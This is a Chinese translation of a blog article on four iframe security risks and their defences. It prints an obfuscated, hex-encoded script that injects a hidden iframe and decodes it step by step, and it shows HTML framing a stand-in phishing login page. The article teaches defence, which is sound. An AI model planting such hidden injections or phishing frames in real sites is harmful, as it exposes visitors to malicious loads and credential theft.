 > * 原文地址：[4 Security Concerns with iframes Every Web Developer Should Know](https://blog.bitsrc.io/4-security-concerns-with-iframes-every-web-developer-should-know-24c73e6a33e4)
> * 原文作者：[Piumi Liyana Gunawardhana](https://medium.com/@piumi-16)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2021/4-security-concerns-with-iframes-every-web-developer-should-know.md](https://github.com/xitu/gold-miner/blob/master/article/2021/4-security-concerns-with-iframes-every-web-developer-should-know.md)
> * 译者：[jaredliw](https://github.com/jaredliw)
> * 校对者：

# 每个 Web 开发人员都应该知道的 4 个 iframe 安全问题

![](https://cdn-images-1.medium.com/max/5760/1*2cHSuIdPoIsV-vgCfVp19A.jpeg)

iframe 是 Web 开发中最古老、最简单的内容嵌入技术之一，即便至今仍被使用。然而，在实践中使用 iframe 可能会带来一些安全隐患，向攻击者敞开大门。

---

因此，在这篇文章中，我将讨论在使用 iframe 前需要注意的 4 个安全威胁。

## 1. iframe 注入

> iframe 注入是一个非常常见的跨站脚本攻击（XSS）。

iframe 使用多个标签来在网页上显示 HTML 文档和将用户重定向到其他的网站。此行为允许第三方将恶意的可执行程序，病毒或蠕虫植入你的应用程序中，并在用户的设备上运行。

我们可以通过扫描 Web 服务器发送的 HTML 来找出 iframe 注入。你需要做的只是在你的浏览器中打开一个页面，然后启用 ”view source“ 功能来查看 HTML。由于这些 iframe 通常指向原生 IP 地址，因此你应该搜查  `<iframe>` 标签，而不是域名。

举例来说，让我们看看以下的代码：

```
++++%23wp+/+GPL%0A%3CScript+Language%3D%27Javascript%27%3E%0A++++%3C%21–%0A++++document.write%28unescape%28%273c696672616d65207372633d27687474703a2f2f696e666
f736563696e737469747574652e636f6d2f272077696474683d273127206865696768743d273127207374
796c653d277669736962696c6974793a2068696464656e3b273e3c2f696672616d653e%27%29%29%3B%0A
++++//–%3E%0A++++%3C/Script%3E
```

它看起来很一般，似乎是和这个站点相关的代码。实际上，它就是问题的根源。如果你用 JavaScript 中的函数对其进行解码，输出会是这样的：

```
#wp / GPL
<Script Language=’Javascript’>
<!–
document.write(unescape(‘3c696672616d65207372633d27687474703a2f2f696e666f73656369
6e737469747574652e636f6d2f272077696474683d273127206865696768743d273127207374796c653d
277669736962696c6974793a2068696464656e3b273e3c2f696672616d653e’));
//–>
</Script>
```

同样，这看起来是合法的，因为攻击者使用了 ”GPL“ 和 ”wp“ 并将语言设为 ”JavaScript“。这些数字和字母似乎是十六进制的，所以接下来我们可以使用十六进制解码器来将其解码，最终结果如下：

```html
<iframe src='https://www.infosecinstitute.com/' width='1' height='1' style='visibility: hidden;'></iframe>
```

---

因此，当你在你的 HTML 中找到一个 iframe，并发现它不是你放置的，你应该尽快调查原因并从网站或数据库中移除它。

## 2. 跨框架脚本攻击

> 跨框架脚本攻击（XFS）结合 iframe 和 JavaScript 恶意脚本，用于偷取用户的资料。

XFS 攻击者说服用户访问由他所控制的网页，并通过 iframe 引用一个结合了恶意脚本的合法站点。当用户在向 iframe 中的合法网站输入凭据时，JavaScript 恶意脚本将记录他们的输入。

---

通过在 Web 服务器配置中包含 **`Content-Security-Policy: frame-ancestors`** 和 **`X-Frame-Options`** 能防止此攻击。

## 3. 点击劫持

点击劫持攻击能诱骗用户点击隐藏的网页元素。由此一来，用户可能会因此在无意中下载恶意程序，浏览恶意网站，提供密码或敏感信息，转账或进行网络购物。

> 攻击者通常会通过 iframe 在网站上覆盖一个不可见的 HTML 元素来执行点击劫持。

用户觉得他点击了显示的那个页面，然而，他所点击的是覆盖在其之上的隐藏元素。

![攻击流程](https://cdn-images-1.medium.com/max/2390/1*OxkBOt9qymWtNpds8CZy7g.png)

有两种主要策略可以保护自己免受点击劫持：

* 服务端中最流行的方法是 Frame Busting，但这并不是最好的解决方法，因为 iframe 只是被忽略了而已。
* 伺服端中的最好办法是使用 `X-Frame-Options`。安全专家强烈地建议从伺服端中解决点击劫持的问题。

## 4. iframe 网络钓鱼

试考虑一个社交平台，它允许用户和开发人员使用 iframe 将第三方网页合并到他们的粉丝页面或其他的应用程序中。

> 攻击者经常滥用这个功能来将 iframe 用于网络钓鱼攻击。

在预设情况下，iframe 中的内容能重定向顶级窗口。因此，攻击者可能会利用跨站脚本（XSS）漏洞来将网络钓鱼的代码当作 iframe 植入到 Web 应用程序中，引导用户进入钓鱼网站。

作为示例，试考虑以下代码：

```html
<html>
  <head>
    <title>Infosec Institute iFrame by Irfan</title>
  </head>
  <body>
  <iframe src=”/user/piumi/” width=”1450″ height=”300″ frameborder=”0″></iframe>
  <iframe src=”http://phishing.com/wp-login” width=”1450″ height=”250″ frameborder=”0″></iframe>
  </body>
</html>
```

上方的代码中包含一个 iframe 嵌入的网络钓鱼站点。用户会被重定向到那里，如果用户没注意网址栏，攻击者将能轻松地获取用户凭据。

> iframe 网络钓鱼攻击者不能伪造网址栏，但他们能触发重定向，操纵用户之后所接收的内容。

---

这个问题可以通过替换 `sandbox` 中的 `allow-top-navigation` 属性值来避免。

## 最后的一些看法

iframe 能提高你的用户的互动性。但是，当你使用 iframe 的时候，你处理的内容是来自于你无法控制的第三方。因此，iframe 经常会对你的应用程序造成威胁。

然而，我们不能因为安全顾虑就停止使用 iframe。我们需要意识到这些问题并采取防范措施来保护我们的应用程序。

我认为这篇文章能帮你确认使用 iframe 的安全问题。在下方评论区让我知道你的看法。

---

谢谢您的阅读！

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
